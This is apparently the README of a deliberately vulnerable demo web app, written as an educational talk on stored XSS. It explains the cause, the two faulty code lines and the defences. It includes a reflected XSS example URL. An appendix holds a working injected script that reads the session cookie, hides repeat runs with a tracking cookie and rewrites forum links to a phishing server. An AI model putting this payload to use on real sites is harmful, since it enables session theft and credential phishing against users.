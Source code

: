 # xss-demo-aug-2019
A (deliberately!) broken site to demonstrate the power of XSS exploitation.

# Stored XSS vulnerabilities
## Presentation structure
1. Definition of stored and reflected XSS attacks
1. Demo of XSS in a web app
1. Explanation of how XSS happened in the demo
1. Steps developers can take to protect against XSS
1. Wider implications and dangers of XSS

## Definition of XSS
### Reflected
Reflected XSS occurs when an attacker crafts a URL containing a parameter or path that will be displayed in a target browser. The attacker usually tricks a target user into clicking on this malicious URL, and can then gain access to the user's browser through a script within the URL. and example of this could be the URL:

`https://www.example.com?search=<script>alert("boo!");</script>cat%20pictures`
### Stored
Stored XSS happens when an attacker can directly upload HTML to a site through a user input field whose contents will be displayed elsewhere on the site, such as a username field. If the input is not escaped by the server, there is a risk it will be rendered as HTML, which means outside scripts can be injected into the page.

_This demo focuses solely on stored XSS attacks_

## Demonstration
The demo app has three fields (of which one has been left vulnerable) where users can input information which will be displayed elsewhere on the site:
- Username
- Post titles
- Post bodies

## How XSS happened in the demo app
Generally speaking, the cause of stored XSS is failure to escape user input. In the case of this app, two lines of code were responsible for the vulnerability:
1. Neglecting to user the `xss` node module to sanitise the input: [/routes/index.js#L59](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/routes/index.js#L59)
1. Using the wrong number of braces in the handlebars template, causing the template to render the variable without escaping the value: [/views/forum_dashboard.hbs#L18](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/views/forum_dashboard.hbs#L18)

## How developers can protect against XSS
As the above section would suggest, the way to avoid XSS is to ensure all user input is escaped before it reaches the browser so there is no possibility it will be rendered as HTML. However in practice this can be easier said than done, particularly in a complex web app.

Developers can introduce coding standards such as prefixing their variable names with whether they are safe or unsafe, (example detailed in this article ["Making wrong code look wrong"](https://www.joelonsoftware.com/2005/05/11/making-wrong-code-look-wrong/)) to reduce the likelihood that unescaped text will make it to the browser. Good code review practices can help maintain these coding standards, too.

There is also the standard solution of not trying to roll your own security: if you can rely on trusted frameworks which you keep up to date, you can mitigate some amount of risk. For example: the templating engine I used to make this site is hard to slip XSS by, as the default behaviour is to always escape values it is asked to display.

## Wider implications and dangers of XSS
When a potential XSS vulnerability is found during a pentest, we tend to add a simple script such as `alert(1);`. The truth is, though, that some incredibly malicious code can be contained within the script tags.

Any information viewable by the browser, such as session and CSRF protection tokens, are accessible any script running on the page. This means if an attacker can inject their own script into the page, they will be able to steal sessions and perform actions masquerading as legitimate users. All user accountability goes out of the window - how can you know if it really is an admin going rogue and deleting half the site, or if they went to an infected page and had their session stolen?

I would argue that even data which is supposed to be inaccessible to the browser, such as passwords, is retrievable with the right script. A version of the annotated script below changes the hyperlinks on a page to send people to the site of an attacker's choice... for example, a phishing site made to look like an 'oops, please log back in page' from the original site.

It's bad enough when you consider that a phishing attack could hand user credentials over to malicious actors, but when taken into account how many people re-use passwords between accounts, it's horrifying how much damage could be done with this relatively simple script.

## Appendix: Commented phishing script from demo

```html
<script type = "text/javascript">
<script type = "text/javascript">
$(document).ready(function () {
  function getCookie(n) {
    // returns the value of a named cookie
    var name = n + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(";");
    for (var i = 0; i < ca.length; i++) {
      var c = ca[i];
      while (c.charAt(0) == " ") {
        c = c.substring(1);
      }
      if (c.indexOf(name) == 0) {
        return c.substring(name.length, c.length);
      }
    }
    return "";
  }

  function setCookie() {
    // Make a new cookie called 'h' (for 'harvested') which pulls the first, middle and last chars from the session ID
    // This will be used to check if the session ID has been updated and needs to be stored
    // using 3 check chars is less suspicious than storing the entire session ID
    var sid = getCookie("connect.sid");
    document.cookie = "h="+ sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2) + ";expires=session;path=/";
  }

  function isNewSession() {
    // Check the value of 'h' against the current session ID
    var sid = getCookie("connect.sid");
    var h = getCookie("h");
    if (h === sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2)) {
      return false;
    } else {
      return true;
    }
  }

  var current_page_path = window.location.pathname;
  // If the session ID is one we've seen before, don't replace the hyperlinks. That way the redirect to the 'login' page looks like a one-off error to the user, and we don't collect the same session ID more than once
  if (!current_page_path.includes("/post") && isNewSession()) {
    // Only run the script on the forum home page, leave individual post pages alone
    $("td > a").each(function(i) {
      console.log(document.cookie);
      var original_path = $(this).attr("href");
      var hostname = window.location.hostname;
      // Replace all links in the table of posts with links to the phishing site
      // Pass along the ID of the post the user was trying to see (so we can direct them back to it after 'logging them back in')
      var new_href = "http://" + hostname + ":1337" + original_path;
      $(this).prop("href", new_href);
    });
    setCookie();
  }
});
// Don't forget to add a normal-looking title so people don't get suspicious!
</script>Important announcement```
